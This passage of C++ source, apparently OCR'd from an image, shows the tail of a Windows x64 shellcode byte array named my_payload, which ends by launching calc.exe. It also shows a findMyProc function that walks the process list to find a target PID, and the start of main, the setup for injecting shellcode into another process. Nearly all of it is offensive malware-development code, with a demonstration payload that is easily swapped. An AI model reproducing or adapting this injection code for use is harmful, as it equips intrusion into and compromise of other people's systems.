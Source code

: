 ```cpp
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
```
